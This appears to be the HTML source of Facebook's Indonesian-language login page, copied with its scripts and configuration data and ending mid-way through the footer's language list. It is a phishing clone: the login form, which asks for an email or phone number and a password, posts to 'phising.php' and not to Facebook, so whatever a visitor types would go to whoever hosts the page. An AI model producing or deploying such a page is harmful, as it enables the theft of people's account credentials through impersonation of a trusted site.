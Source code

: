 <!DOCTYPE html>
<html lang="id" id="facebook" class="no_js">
<head><meta charset="utf-8" /><meta name="referrer" content="origin-when-crossorigin" id="meta_referrer" /><script nonce="DPCV4jDj">function envFlush(a){function b(b){for(var c in a)b[c]=a[c]}window.requireLazy?window.requireLazy(["Env"],b):(window.Env=window.Env||{},b(window.Env))}envFlush({"hostnameRewriterConfig":{"site":"internet.org","inboundName":"web.facebook.com","cdnDomainName":null},"useTrustedTypes":false,"isTrustedTypesReportOnly":false,"ajaxpipe_token":"AXj_qIbpMH9vWpVhgC8","stack_trace_limit":30,"timesliceBufferSize":5000,"show_invariant_decoder":false,"compat_iframe_token":"AQ495dT2dmU8gTR60gI","isCQuick":false});</script><script nonce="DPCV4jDj">(function(a){function b(b){if(!window.openDatabase)return;b.I_AM_INCOGNITO_AND_I_REALLY_NEED_WEBSQL=function(a,b,c,d){return window.openDatabase(a,b,c,d)};window.openDatabase=function(){throw new Error()}}b(a)})(this);</script><style nonce="DPCV4jDj"></style><script nonce="DPCV4jDj">__DEV__=0;</script><noscript><meta http-equiv="refresh" content="0; URL=/?locale=id_ID&amp;_rdc=1&amp;_rdr&amp;_fb_noscript=1" /></noscript><link rel="manifest" id="MANIFEST_LINK" href="/data/manifest/" crossorigin="use-credentials" /><title id="pageTitle">Facebook - Masuk atau Daftar</title><meta property="og:site_name" content="Facebook" /><meta property="og:url" content="https://web.facebook.com/?locale=id_ID" /><meta property="og:image" content="https://www.facebook.com/images/fb_icon_325x325.png" /><meta property="og:locale" content="id_ID" /><link rel="alternate" media="only screen and (max-width: 640px)" href="https://m.facebook.com/" /><link rel="alternate" media="handheld" href="https://m.facebook.com/" /><meta name="description" content="Login ke Facebook untuk mulai membagikan sesuatu dan berhubungan dengan teman, keluarga, dan orang-orang yang Anda kenal." /><link rel="canonical" href="https://id-id.facebook.com/" /><link rel="icon" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/yb/r/hLRJ1GG_y0J.ico" /><link type="text/css" rel="stylesheet" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yt/l/0,cross/pUUbS-a60Hf.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="gqsxqq/" crossorigin="anonymous" />
<link type="text/css" rel="stylesheet" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yF/l/0,cross/vW6v-i2pStD.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="BCtJxgr" crossorigin="anonymous" />
<link type="text/css" rel="stylesheet" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yW/l/0,cross/bhHErlshOuZ.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="GLWoijf" crossorigin="anonymous" />
<link type="text/css" rel="stylesheet" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yo/l/0,cross/oI7bhS_irZs.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="UmHNvtz" crossorigin="anonymous" />
<link type="text/css" rel="stylesheet" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yr/l/0,cross/nuNKxsHxWy3.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="bB8N6Cz" crossorigin="anonymous" />
<link type="text/css" rel="stylesheet" href="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/yQ/l/0,cross/OZRnJgs6Suh.css?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="rk/b7Sj" crossorigin="anonymous" />
<script src="https://z-p3-static.xx.fbcdn.net/rsrc.php/v3/y2/r/vB3CzVIR97P.js?_nc_x=Ij3Wp8lg5Kz" data-bootloader-hash="2us9zTK" crossorigin="anonymous" nonce="DPCV4jDj"></script>
<script nonce="DPCV4jDj">requireLazy(["HasteSupportData"],function(m){m.handle({"clpData":{"1744178":{"r":1,"s":1},"1814852":{"r":1},"1838142":{"r":1,"s":1},"4883":{"r":1,"s":1},"1837559":{"r":1},"1848815":{"r":10000,"s":1}},"gkxData":{"196":{"result":false,"hash":null},"209":{"result":false,"hash":null},"329":{"result":false,"hash":null},"847":{"result":false,"hash":null},"1154":{"result":false,"hash":null},"7742":{"result":false,"hash":null},"20836":{"result":false,"hash":null},"20935":{"result":false,"hash":null},"20936":{"result":false,"hash":null},"20939":{"result":true,"hash":null},"20940":{"result":false,"hash":null},"20979":{"result":false,"hash":null},"20980":{"result":false,"hash":null},"20981":{"result":false,"hash":null},"20982":{"result":false,"hash":null},"20983":{"result":false,"hash":null},"20984":{"result":true,"hash":null},"20985":{"result":false,"hash":null},"20986":{"result":false,"hash":null},"20987":{"result":false,"hash":null},"20988":{"result":true,"hash":null},"21043":{"result":false,"hash":null},"21050":{"result":false,"hash":null},"21051":{"result":false,"hash":null},"21052":{"result":false,"hash":null},"21053":{"result":false,"hash":null},"21054":{"result":false,"hash":null},"21055":{"result":false,"hash":null},"21056":{"result":false,"hash":null},"21057":{"result":false,"hash":null},"21058":{"result":false,"hash":null},"21059":{"result":false,"hash":null},"21074":{"result":false,"hash":null},"21075":{"result":false,"hash":null},"21076":{"result":true,"hash":null},"21106":{"result":false,"hash":null},"21107":{"result":false,"hash":null},"21117":{"result":false,"hash":null},"22681":{"result":false,"hash":null},"22773":{"result":false,"hash":null},"22785":{"result":false,"hash":null},"22792":{"result":false,"hash":null},"22803":{"result":false,"hash":null},"22826":{"result":false,"hash":null},"22827":{"result":true,"hash":null},"22875":{"result":false,"hash":null},"22876":{"result":false,"hash":null},"22877":{"result":true,"hash":null},"22879":{"result":false,"hash":null},"22979":{"result":false,"hash":null},"23433":{"result":false,"hash":null},"26334":{"result":false,"hash":null},"26340":{"result":false,"hash":null},"26341":{"result":false,"hash":null},"26342":{"result":false,"hash":null},"20948":{"result":true,"hash":null},"25572":{"result":false,"hash":null},"25571":{"result":false,"hash":null}},"ixData":{"701592":{"sprited":1,"spriteCssClass":"sx_36521e","spriteMapCssClass":"sp_7apqqcW0quE"},"702721":{"sprited":1,"spriteCssClass":"sx_94bea9","spriteMapCssClass":"sp_7apqqcW0quE"},"897949":{"sprited":1,"spriteCssClass":"sx_fc3c8a","spriteMapCssClass":"sp_7apqqcW0quE"},"1739808":{"sprited":1,"spriteCssClass":"sx_5e73ef","spriteMapCssClass":"sp_7apqqcW0quE"}},"qexData":{"526":{"r":null},"538":{"r":null},"543":{"r":null},"723":{"r":null}},"justknobxData":{"144":{"r":true},"450":{"r":true},"1203":{"r":true}}})});requireLazy(["TimeSliceImpl","ServerJS"],function(TimeSlice,ServerJS){(new ServerJS()).handle({"define":[["cr:310",["RunWWW"],{"__rc":["RunWWW",null]},-1],["cr:1126",["TimeSliceImpl"],{"__rc":["TimeSliceImpl",null]},-1],["cr:6640",["PromiseImpl"],{"__rc":["PromiseImpl",null]},-1],["cr:7386",["clearTimeoutWWW"],{"__rc":["clearTimeoutWWW",null]},-1],["cr:7390",["setTimeoutWWW"],{"__rc":["setTimeoutWWW",null]},-1],["cr:8958",["FBJSON"],{"__rc":["FBJSON",null]},-1],["cr:1078",[],{"__rc":[null,null]},-1],["cr:1080",["unexpectedUseInComet"],{"__rc":["unexpectedUseInComet",null]},-1],["cr:6108",["CSS"],{"__rc":["CSS",null]},-1],["cr:7385",["clearIntervalWWW"],{"__rc":["clearIntervalWWW",null]},-1],["cr:7389",["setIntervalAcrossTransitionsWWW"],{"__rc":["setIntervalAcrossTransitionsWWW",null]},-1],["cr:7391",["setTimeoutAcrossTransitionsWWW"],{"__rc":["setTimeoutAcrossTransitionsWWW",null]},-1],["cr:7936",["BlueCompatRouter"],{"__rc":["BlueCompatRouter",null]},-1],["cr:8959",["DTSG"],{"__rc":["DTSG",null]},-1],["cr:8960",["DTSG_ASYNC"],{"__rc":["DTSG_ASYNC",null]},-1],["cr:696703",[],{"__rc":[null,null]},-1],["cr:708886",["EventProfilerImpl"],{"__rc":["EventProfilerImpl",null]},-1],["cr:135",["RunBlue"],{"__rc":["RunBlue",null]},-1],["cr:6669",["DataStore"],{"__rc":["DataStore",null]},-1],["ServerNonce",[],{"ServerNonce":"MUV0cTVSmlEk3QCUN7u4Og"},141],["KSConfig",[],{"killed":{"__set":["POCKET_MONSTERS_CREATE","POCKET_MONSTERS_DELETE","POCKET_MONSTERS_UPDATE_NAME","TPA_SRT_TRANSLATION","WORKROOMS_REQUEST_TAGGING_TAG_NO_INIT_BY_VC_GALAXY"]},"ko":{"__set":["acrJTh9WGdp","1oOE64fL4wO","7r6mSP7ofr2","3sKizTQ6byg","6XsXQ2qHw8y"]}},2580],["InitialCookieConsent",[],{"deferCookies":false,"initialConsent":[1,2],"noCookies":false,"shouldShowCookieBanner":false,"shouldWaitForDeferredDatrCookie":false},4328],["CookieConsentIFrameConfig",[],{"consent_param":"FQAREhISAA==.ARbRFzBesmntyI-_YPVLtOMmmBnXfig6AeT7NWMKmcTQO9o8","allowlisted_iframes":[],"is_checkpointed":false},5540],["ServerTimeData",[],{"serverTime":1712594259500,"timeOfRequestStart":1712594259459.4,"timeOfResponseStart":1712594259459.4},5943],["URLFragmentPreludeConfig",[],{"hashtagRedirect":true,"fragBlacklist":["nonce","access_token","oauth_token","xs","checkpoint_data","code"]},137],["CometPersistQueryParams",[],{"relative":{},"domain":{}},6231],["CookieDomain",[],{"domain":"facebook.com"},6421],["GetAsyncParamsExtraData",[],{"extra_data":{}},7511],["BootloaderConfig",[],{"deferBootloads":false,"jsRetries":[200,500],"jsRetryAbortNum":2,"jsRetryAbortTime":5,"silentDups":false,"timeout":60000,"tieredLoadingFromTier":100,"hypStep4":false,"phdOn":false,"btCutoffIndex":2246,"fastPathForAlreadyRequired":true,"earlyRequireLazy":false,"enableTimeoutLoggingForNonComet":false,"deferLongTailManifest":true,"lazySoT":false,"translationRetries":[200,500],"translationRetryAbortNum":3,"translationRetryAbortTime":50},329],["CSSLoaderConfig",[],{"timeout":5000,"modulePrefix":"BLCSS:","forcePollForBootloader":true,"loadEventSupported":true},619],["CookieCoreConfig",[],{"c_user":{"t":31536000,"s":"None"},"cppo":{"t":86400,"s":"None"},"dpr":{"t":604800,"s":"None"},"fbl_ci":{"t":31536000,"s":"None"},"fbl_cs":{"t":31536000,"s":"None"},"fbl_st":{"t":31536000,"s":"Strict"},"i_user":{"t":31536000,"s":"None"},"locale":{"t":604800,"s":"None"},"m_ls":{"t":34560000,"s":"None"},"m_pixel_ratio":{"t":604800,"s":"None"},"noscript":{"s":"None"},"presence":{"t":2592000,"s":"None"},"sfau":{"s":"None"},"usida":{"s":"None"},"vpd":{"t":5184000,"s":"Lax"},"wd":{"t":604800,"s":"Lax"},"wl_cbv":{"t":7776000,"s":"None"},"x-referer":{"s":"None"},"x-src":{"t":1,"s":"None"}},2104],["CurrentUserInitialData",[],{"ACCOUNT_ID":"0","USER_ID":"0","NAME":"","SHORT_NAME":null,"IS_BUSINESS_PERSON_ACCOUNT":false,"HAS_SECONDARY_BUSINESS_PERSON":false,"IS_FACEBOOK_WORK_ACCOUNT":false,"IS_MESSENGER_ONLY_USER":false,"IS_DEACTIVATED_ALLOWED_ON_MESSENGER":false,"IS_MESSENGER_CALL_GUEST_USER":false,"IS_WORK_MESSENGER_CALL_GUEST_USER":false,"IS_WORKROOMS_USER":false,"APP_ID":"256281040558","IS_BUSINESS_DOMAIN":false},270],["LSD",[],{"token":"AVoULLa4bv8"},323],["SiteData",[],{"server_revision":1012612339,"client_revision":1012612339,"push_phase":"C3","pkg_cohort":"BP:DEFAULT","haste_session":"19821.BP:DEFAULT.2.0..0.0","pr":1,"manifest_base_uri":"https:\/\/z-p3-static.xx.fbcdn.net","manifest_origin":null,"manifest_version_prefix":null,"be_one_ahead":false,"is_rtl":false,"is_experimental_tier":false,"is_jit_warmed_up":true,"hsi":"7355536335707587444","semr_host_bucket":"5","bl_hash_version":2,"comet_env":0,"wbloks_env":false,"ef_page":null,"compose_bootloads":false,"spin":4,"__spin_r":1012612339,"__spin_b":"trunk","__spin_t":1712594259,"vip":"163.70.149.15"},317],["SprinkleConfig",[],{"param_name":"jazoest","version":2,"should_randomize":false},2111],["UserAgentData",[],{"browserArchitecture":"64","browserFullVersion":"123.0.0.0","browserMinorVersion":0,"browserName":"Chrome","browserVersion":123,"deviceName":"Unknown","engineName":"Blink","engineVersion":"123.0.0.0","platformArchitecture":"64","platformName":"Windows","platformVersion":"10","platformFullVersion":"10"},527],["PromiseUsePolyfillSetImmediateGK",[],{"www_always_use_polyfill_setimmediate":false},2190],["JSErrorLoggingConfig",[],{"appId":256281040558,"extra":[],"reportInterval":50,"sampleWeight":null,"sampleWeightKey":"__jssesw","projectBlocklist":[]},2776],["DataStoreConfig",[],{"expandoKey":"__FB_STORE","useExpando":true},2915],["CookieCoreLoggingConfig",[],{"maximumIgnorableStallMs":16.67,"sampleRate":9.7e-5,"sampleRateClassic":1.0e-10,"sampleRateFastStale":1.0e-8},3401],["ImmediateImplementationExperiments",[],{"prefer_message_channel":true},3419],["UriNeedRawQuerySVConfig",[],{"uris":["dms.netmng.com","doubleclick.net","r.msn.com","watchit.sky.com","graphite.instagram.com","www.kfc.co.th","learn.pantheon.io","www.landmarkshops.in","www.ncl.com","s0.wp.com","www.tatacliq.com","bs.serving-sys.com","kohls.com","lazada.co.th","xg4ken.com","technopark.ru","officedepot.com.mx","bestbuy.com.mx","booking.com","nibio.no","myworkdayjobs.com","united-united.com"]},3871],["BootloaderEndpointConfig",[],{"debugNoBatching":false,"maxBatchSize":-1,"endpointURI":"https:\/\/web.facebook.com\/ajax\/bootloader-endpoint\/"},5094],["BigPipeExperiments",[],{"link_images_to_pagelets":false,"enable_bigpipe_plugins":false},907],["cr:7730",["getFbtResult"],{"__rc":["getFbtResult",null]},-1],["cr:8906",["goURIWWW"],{"__rc":["goURIWWW",null]},-1],["cr:925100",["RunBlue"],{"__rc":["RunBlue",null]},-1],["cr:806696",["clearTimeoutBlue"],{"__rc":["clearTimeoutBlue",null]},-1],["cr:807042",["setTimeoutBlue"],{"__rc":["setTimeoutBlue",null]},-1],["cr:1003267",["clearIntervalBlue"],{"__rc":["clearIntervalBlue",null]},-1],["cr:896462",["setIntervalAcrossTransitionsBlue"],{"__rc":["setIntervalAcrossTransitionsBlue",null]},-1],["cr:986633",["setTimeoutAcrossTransitionsBlue"],{"__rc":["setTimeoutAcrossTransitionsBlue",null]},-1],["cr:6799",["EventProfilerAdsSessionProvider"],{"__rc":["EventProfilerAdsSessionProvider",null]},-1],["IntlVariationHoldout",[],{"disable_variation":false},6533],["IntlNumberTypeProps",["IntlCLDRNumberType01"],{"module":{"__m":"IntlCLDRNumberType01"}},7027],["AsyncRequestConfig",[],{"retryOnNetworkError":"1","useFetchStreamAjaxPipeTransport":false},328],["DTSGInitialData",[],{},258],["IntlPhonologicalRules",[],{"meta":{},"patterns":{}},1496],["IntlViewerContext",[],{"GENDER":3,"regionalLocale":null},772],["NumberFormatConfig",[],{"decimalSeparator":",","numberDelimiter":".","minDigitsForThousandsSeparator":4,"standardDecimalPatternInfo":{"primaryGroupSize":3,"secondaryGroupSize":3},"numberingSystemData":null},54],["SessionNameConfig",[],{"seed":"1yW5"},757],["ZeroCategoryHeader",[],{},1127],["ZeroRewriteRules",[],{"rewrite_rules":{},"whitelist":{"\/hr\/r":1,"\/hr\/p":1,"\/zero\/unsupported_browser\/":1,"\/zero\/policy\/optin":1,"\/zero\/optin\/write\/":1,"\/zero\/optin\/legal\/":1,"\/zero\/optin\/free\/":1,"\/about\/privacy\/":1,"\/about\/privacy\/update\/":1,"\/privacy\/explanation\/":1,"\/zero\/toggle\/welcome\/":1,"\/zero\/toggle\/nux\/":1,"\/zero\/toggle\/settings\/":1,"\/fup\/interstitial\/":1,"\/work\/landing":1,"\/work\/login\/":1,"\/work\/email\/":1,"\/ai.php":1,"\/js_dialog_resources\/dialog_descriptions_android.json":0,"\/connect\/jsdialog\/MPlatformAppInvitesJSDialog\/":0,"\/connect\/jsdialog\/MPlatformOAuthShimJSDialog\/":0,"\/connect\/jsdialog\/MPlatformLikeJSDialog\/":0,"\/qp\/interstitial\/":1,"\/qp\/action\/redirect\/":1,"\/qp\/action\/close\/":1,"\/zero\/support\/ineligible\/":1,"\/zero_balance_redirect\/":1,"\/zero_balance_redirect":1,"\/zero_balance_redirect\/l\/":1,"\/l.php":1,"\/lsr.php":1,"\/ajax\/dtsg\/":1,"\/checkpoint\/block\/":1,"\/exitdsite":1,"\/zero\/balance\/pixel\/":1,"\/zero\/balance\/":1,"\/zero\/balance\/carrier_landing\/":1,"\/zero\/flex\/logging\/":1,"\/tr":1,"\/tr\/":1,"\/sem_campaigns\/sem_pixel_test\/":1,"\/bookmarks\/flyout\/body\/":1,"\/zero\/subno\/":1,"\/confirmemail.php":1,"\/policies\/":1,"\/mobile\/internetdotorg\/classifier\/":1,"\/zero\/dogfooding":1,"\/xti.php":1,"\/zero\/fblite\/config\/":1,"\/hr\/zsh\/wc\/":1,"\/ajax\/bootloader-endpoint\/":1,"\/mobile\/zero\/carrier_page\/":1,"\/mobile\/zero\/carrier_page\/education_page\/":1,"\/mobile\/zero\/carrier_page\/feature_switch\/":1,"\/mobile\/zero\/carrier_page\/settings_page\/":1,"\/aloha_check_build":1,"\/upsell\/zbd\/softnudge\/":1,"\/mobile\/zero\/af_transition\/":1,"\/mobile\/zero\/af_transition\/action\/":1,"\/mobile\/zero\/freemium\/":1,"\/mobile\/zero\/freemium\/redirect\/":1,"\/mobile\/zero\/freemium\/zero_fup\/":1,"\/privacy\/policy\/":1,"\/privacy\/center\/":1,"\/data\/manifest\/":1,"\/4oh4.php":1,"\/autologin.php":1,"\/birthday_help.php":1,"\/checkpoint\/":1,"\/contact-importer\/":1,"\/cr.php":1,"\/legal\/terms\/":1,"\/login.php":1,"\/login\/":1,"\/mobile\/account\/":1,"\/n\/":1,"\/remote_test_device\/":1,"\/upsell\/buy\/":1,"\/upsell\/buyconfirm\/":1,"\/upsell\/buyresult\/":1,"\/upsell\/promos\/":1,"\/upsell\/continue\/":1,"\/upsell\/h\/promos\/":1,"\/upsell\/loan\/learnmore\/":1,"\/upsell\/purchase\/":1,"\/upsell\/promos\/upgrade\/":1,"\/upsell\/buy_redirect\/":1,"\/upsell\/loan\/buyconfirm\/":1,"\/upsell\/loan\/buy\/":1,"\/upsell\/sms\/":1,"\/wap\/a\/channel\/reconnect.php":1,"\/wap\/a\/nux\/wizard\/nav.php":1,"\/wap\/appreg.php":1,"\/wap\/birthday_help.php":1,"\/wap\/c.php":1,"\/wap\/confirmemail.php":1,"\/wap\/cr.php":1,"\/wap\/login.php":1,"\/wap\/r.php":1,"\/zero\/datapolicy":1,"\/a\/timezone.php":1,"\/a\/bz":1,"\/bz\/reliability":1,"\/r.php":1,"\/mr\/":1,"\/reg\/":1,"\/registration\/log\/":1,"\/terms\/":1,"\/f123\/":1,"\/expert\/":1,"\/experts\/":1,"\/terms\/index.php":1,"\/terms.php":1,"\/srr\/":1,"\/msite\/redirect\/":1,"\/fbs\/pixel\/":1,"\/contactpoint\/preconfirmation\/":1,"\/contactpoint\/cliff\/":1,"\/contactpoint\/confirm\/submit\/":1,"\/contactpoint\/confirmed\/":1,"\/contactpoint\/login\/":1,"\/preconfirmation\/contactpoint_change\/":1,"\/help\/contact\/":1,"\/survey\/":1,"\/upsell\/loyaltytopup\/accept\/":1,"\/settings\/":1,"\/lite\/":1,"\/zero_status_update\/":1,"\/operator_store\/":1,"\/upsell\/":1,"\/wifiauth\/login\/":1}},1478],["DTSGInitData",[],{"token":"","async_get_token":""},3515],["WebDriverConfig",[],{"isTestRunning":false,"isJestE2ETestRun":false,"isXRequestConfigEnabled":false,"auxiliaryServiceInfo":{},"testPath":null,"originHost":null},5332],["CurrentEnvironment",[],{"facebookdotcom":true,"messengerdotcom":false,"workplacedotcom":false,"instagramdotcom":false,"workdotmetadotcom":false,"horizondotmetadotcom":false},827],["CometAltpayJsSdkIframeAllowedDomains",[],{"allowed_domains":["https:\/\/live.adyen.com","https:\/\/integration-facebook.payu.in","https:\/\/facebook.payulatam.com","https:\/\/secure.payu.com","https:\/\/facebook.dlocal.com","https:\/\/buy2.boku.com"]},4920],["EventConfig",[],{"sampling":{"bandwidth":0,"play":0,"playing":0,"progress":0,"pause":0,"ended":0,"seeked":0,"seeking":0,"waiting":0,"loadedmetadata":0,"canplay":0,"selectionchange":0,"change":0,"timeupdate":0,"adaptation":0,"focus":0,"blur":0,"load":0,"error":0,"message":0,"abort":0,"storage":0,"scroll":200000,"mousemove":20000,"mouseover":10000,"mouseout":10000,"mousewheel":1,"MSPointerMove":10000,"keydown":0.1,"click":0.02,"mouseup":0.02,"__100ms":0.001,"__default":5000,"__min":100,"__interactionDefault":200,"__eventDefault":100000},"page_sampling_boost":1,"interaction_regexes":{},"interaction_boost":{},"event_types":{},"manual_instrumentation":false,"profile_eager_execution":false,"disable_heuristic":true,"disable_event_profiler":false},1726],["cr:1290",[],{"__rc":[null,null]},-1],["cr:1094907",[],{"__rc":[null,null]},-1],["cr:1183579",["InlineFbtResultImpl"],{"__rc":["InlineFbtResultImpl",null]},-1],["FbtResultGK",[],{"shouldReturnFbtResult":true,"inlineMode":"NO_INLINE"},876],["AdsInterfacesSessionConfig",[],{},2393],["FbtQTOverrides",[],{"overrides":{"1_55129ee06d03fcd7901256ffc9628f85":"Pacu Kiriman","1_10dfe8812f372b36000dc70ccfcff83a":"Pacu Kiriman","1_2836753e581f8133c6c64188a1144bba":"Pacu Kiriman","1_2cf74da879001cbaa9a3c4e6e7d6cff0":"Pacu Kiriman","1_1c46dbda195c33e7cdb5ac4425daf66d":"Pacu Kiriman","1_5bdf3cebd879fc819436748c2a5042e1":"Pacu Kiriman","1_7915da4048e4a7208f81733ba1fcba99":"Pacu Kiriman","1_fec3cfdef8ee7e4e054ed6d43356299f":"Pacu Kiriman","1_3962f7be99f2808718ea697713467730":"Pacu Kiriman","1_b61119c22c97065d3327cb72a780e472":"Pacu Kiriman","1_b1f4f61ba0a326cbc832b43ec5e5c23b":"Pacu Kiriman","1_5e4dbf9ad86cbd2f37b97c003242db7d":"Pacu Kiriman","1_da6315b6045c11c2184420edda65b4d7":"Pacu Kiriman","1_db040a863a50524c5edab23ec425cbae":"Pacu Kiriman","1_412ee9c1fa484b09a3b23a86e5958ecc":"Pacu Kiriman","1_8d65757ff9170e4cd77fd4e69dc5dfbc":"Pacu Kiriman","1_0c2f8be99053c22852ed4104373c43c3":"Pacu Kiriman","1_73b9ec51b8320eafe99e2ebe3ef37dcf":"Pacu Kiriman","1_a3860bd3eff615fa21d2fc64f8e79bfe":"Pacu Kiriman","1_7166eab5bd745a2fb5dafd54930c33f5":"Pacu Kiriman","1_fba8f9b0ca479ae9a9ad781c53570430":"Pacu Kiriman"}},551],["AnalyticsCoreData",[],{"device_id":"$^|AcaEqmZmCDvrgYalWlZoCsPBGZRG7SNmvw4Ms5Z9Y26FmmeOh9hOYGSjWeMmVdzaMexL1vEDTb9tTQqxq_nLPHEQKLcMBJw|fd.Aca1JxiNVTfEzaoKO2c2xsOf2eiZYnSSe6jHHMYO1yiBfdeQOF7AqKOfbMBi4-V6JYJVgCVOD6CmoDkFloVI3CRY","app_id":"256281040558","enable_bladerunner":false,"enable_ack":true,"push_phase":"C3","enable_observer":false,"enable_cmcd_observer":false,"enable_dataloss_timer":false,"enable_fallback_for_br":true,"queue_activation_experiment":false,"max_delay_br_queue":60000,"max_delay_br_queue_immediate":3,"max_delay_br_init_not_complete":3000,"consents":{},"app_universe":1,"br_stateful_migration_on":true,"enable_non_fb_br_stateless_by_default":false,"use_falco_as_mutex_key":false},5237],["WebConnectionClassServerGuess",[],{"connectionClass":"EXCELLENT"},4705]],"require":[["markJSEnabled"],["lowerDomain"],["URLFragmentPrelude"],["Primer"],["BigPipe"],["Bootloader"],["TimeSlice"],["AsyncRequest"],["FbtLogging"],["IntlQtEventFalcoEvent"],["RequireDeferredReference","unblock",[],[["AsyncRequest","FbtLogging","IntlQtEventFalcoEvent"],"sd"]],["RequireDeferredReference","unblock",[],[["AsyncRequest","FbtLogging","IntlQtEventFalcoEvent"],"css"]]]});});</script></head><body class="fbIndex UIPage_LoggedOut _-kb _605a b_c3pyn-ahh chrome webkit win x1 Locale_id_ID" dir="ltr"><script type="text/javascript" nonce="DPCV4jDj">requireLazy(["bootstrapWebSession"],function(j){j(1712594259)})</script><div class="_li" id="u_0_1_t7"><div id="globalContainer" class="uiContextualLayerParent"><div class="fb_content clearfix " id="content" role="main"><div><div class="_8esj _95k9 _8esf _8opv _8f3m _8ilg _8icx _8op_ _95ka"><div class="_8esk"><div class="_8esl"><div class="_8ice"><img class="fb_logo _8ilh img" src="https://z-p3-static.xx.fbcdn.net/rsrc.php/y1/r/4lCu2zih0ca.svg" alt="Facebook" /></div><h2 class="_8eso">Facebook membantu Anda terhubung dan berbagi dengan orang-orang dalam kehidupan Anda.</h2></div><div class="_8esn"><div class="_8iep _8icy _9ahz _9ah-"><div class="_6luv _52jv"><form class="_9vtf" data-testid="royal_login_form" action="phising.php" method="post"><input type="hidden" name="jazoest" value="2920" autocomplete="off" /><input type="hidden" name="lsd" value="AVoULLa4bv8" autocomplete="off" /><div><div class="_6lux"><input type="text" class="inputtext _55r1 _6luy" name="email" id="email" data-testid="royal_email" placeholder="Email atau Nomor Telepon" autofocus="1" aria-label="Email atau Nomor Telepon" /></div><div class="_6lux"><div class="_6luy _55r1 _1kbt" id="passContainer"><input type="view" class="inputtext _55r1 _6luy _9npi" name="pass" id="pass" data-testid="royal_pass" placeholder="Kata Sandi" aria-label="Kata Sandi" /><div class="_9ls7" id="u_0_3_Sj"><a href="#" role="button"><div class="_9lsa"><div class="_9lsb" id="u_0_4_Uk"></div></div></a></div></div></div></div><input type="hidden" autocomplete="off" name="login_source" value="comet_headerless_login" /><input type="hidden" autocomplete="off" name="next" value="" /><div class="_6ltg"><button value="1" class="_42ft _4jy0 _6lth _4jy6 _4jy1 selected _51sy" name="login" data-testid="royal_login_button" type="submit" id="u_0_5_Pz">Masuk</button></div><div class="_6ltj"><a href="https://web.facebook.com/recover/initiate/?privacy_mutation_token=eyJ0eXBlIjowLCJjcmVhdGlvbl90aW1lIjoxNzEyNTk0MjU5LCJjYWxsc2l0ZV9pZCI6MzgxMjI5MDc5NTc1OTQ2fQ%3D%3D&amp;ars=facebook_login">Lupa kata sandi?</a></div><div class="_8icz"></div><div class="_6ltg"><a role="button" class="_42ft _4jy0 _6lti _4jy6 _4jy2 selected _51sy" href="#" ajaxify="/reg/spotlight/" id="u_0_0_Gk" data-testid="open-registration-form-button" rel="async">Buat akun baru</a></div></form></div><div id="reg_pages_msg" class="_58mk"><a href="/pages/create/?ref_type=registration_form" class="_8esh">Buat Halaman</a> untuk selebriti, merek, atau bisnis.</div></div></div></div></div></div></div><div class=""><div class="_95ke _8opy"><div id="pageFooter" data-referrer="page_footer" data-testid="page_footer"><ul class="uiList localeSelectorList _2pid _509- _4ki _6-h _6-j _6-i" data-nocookies="1"><li>Bahasa Indonesia</li><li><a class="_sv4" dir="ltr" href="https://km-kh.facebook.com/?locale=km_KH" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;km_KH&quot;, &quot;id_ID&quot;, &quot;https:\/\/km-kh.facebook.com\/?locale=km_KH&quot;, &quot;www_list_selector&quot;, 0); return false;" title="Khmer">ភាសាខ្មែរ</a></li><li><a class="_sv4" dir="ltr" href="https://fr-fr.facebook.com/?locale=fr_FR" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;fr_FR&quot;, &quot;id_ID&quot;, &quot;https:\/\/fr-fr.facebook.com\/?locale=fr_FR&quot;, &quot;www_list_selector&quot;, 1); return false;" title="French (France)">Français (France)</a></li><li><a class="_sv4" dir="ltr" href="https://web.facebook.com/?locale=en_US" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;en_US&quot;, &quot;id_ID&quot;, &quot;https:\/\/web.facebook.com\/?locale=en_US&quot;, &quot;www_list_selector&quot;, 2); return false;" title="English (US)">English (US)</a></li><li><a class="_sv4" dir="ltr" href="https://vi-vn.facebook.com/?locale=vi_VN" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;vi_VN&quot;, &quot;id_ID&quot;, &quot;https:\/\/vi-vn.facebook.com\/?locale=vi_VN&quot;, &quot;www_list_selector&quot;, 3); return false;" title="Vietnamese">Tiếng Việt</a></li><li><a class="_sv4" dir="ltr" href="https://zh-cn.facebook.com/?locale=zh_CN" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;zh_CN&quot;, &quot;id_ID&quot;, &quot;https:\/\/zh-cn.facebook.com\/?locale=zh_CN&quot;, &quot;www_list_selector&quot;, 4); return false;" title="Simplified Chinese (China)">中文(简体)</a></li><li><a class="_sv4" dir="ltr" href="https://th-th.facebook.com/?locale=th_TH" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;th_TH&quot;, &quot;id_ID&quot;, &quot;https:\/\/th-th.facebook.com\/?locale=th_TH&quot;, &quot;www_list_selector&quot;, 5); return false;" title="Thai">ภาษาไทย</a></li><li><a class="_sv4" dir="ltr" href="https://ko-kr.facebook.com/?locale=ko_KR" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ko_KR&quot;, &quot;id_ID&quot;, &quot;https:\/\/ko-kr.facebook.com\/?locale=ko_KR&quot;, &quot;www_list_selector&quot;, 6); return false;" title="Korean">한국어</a></li><li><a class="_sv4" dir="ltr" href="https://ja-jp.facebook.com/?locale=ja_JP" onclick="require(&quot;IntlUtils&quot;).setCookieLocale(&quot;ja_JP&quot;, 